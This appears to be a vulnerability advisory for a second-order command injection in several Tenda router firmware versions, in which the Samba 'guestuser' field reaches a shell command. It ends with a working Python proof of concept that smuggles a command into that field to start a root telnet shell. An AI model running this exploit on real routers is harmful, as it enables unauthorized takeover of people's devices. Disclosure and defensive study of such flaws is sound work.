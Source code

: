 

I found a command injection vulnerability in the Tenda router's webserver. While processing the `guestuser` parameters for a post request to `/goform/SetSambaCfg`, the payload is directly stored into NVRAM. When a post request is sent again to `/goform/SetSambaCfg`, the payload is read from NVRAM and executed. It's like Second-Order SQL Injection Attack. The details are shown below:


## Overview

Vendor: Tenda

Product:
- AC18 device, Firmware V15.03.05.19(6318) and earlier version
- AC10UV1.0 device, Firmware V15.03.06.49 and earlier version
- AC9V1.0 device, Firmware V15.03.05.19 and earlier version
- AC9V3.0 device, Firmware V15.03.06.42 and earlier version

Vulnerability type: command injection

Discoverer: longuan@iie 


## Details

1. First, `websGetVar()` retrieves the content of `guestuser` from HTTP POST request, then store it into NVRAM using `SetValue("usb.samba.guest.user", v7);`.

![image](/vulns/Tenda/images/details-3-1.png)

2. Then we access this function again. It will load the previously stored payload using `GetValue("usb.samba.guest.user", s);`. The payload directly passed to `doSystemCmd("busybox deluser %s", s);`, which cause a RCE.

![image](/vulns/Tenda/images/details-3-2.png)


## PoC

```py
# coding:utf-8

import requests

header = {
    "Accept": "*/*",
    "X-Requested-With": "XMLHttpRequest",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.92 Safari/537.36",
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"
}

s = requests.session()
s.headers.update(header)

# login 

login_req = s.post("http://192.168.0.1/login/Auth", data="username=admin&password=70ebc4f9c9d22827a5874d1bb6f06abd")

# First, store telnet payload into NVRAM. `telenetd -p 6666 -l /bin/sh` 

req = s.post("http://192.168.0.1/goform/SetSambaCfg", data="fileCode=UTF-8&password=admin&premitEn=0&guestpwd=guests&guestuser=guest1%3btelnetd%20-p%206666%20-l%20/bin/sh%3b&guestaccess=r&internetPort=21")

# Second, send a post request again, trigger the vulnerability.

req = s.post("http://192.168.0.1/goform/SetSambaCfg", data="fileCode=UTF-8&password=admin&premitEn=0&guestpwd=guests&guestuser=guest1&guestaccess=r&internetPort=21")
print(req.text)

# Finally, using `telnet 192.168.0.1 6666` in terminal can get router's shell
```

![image](/vulns/Tenda/images/poc-3-1.png)


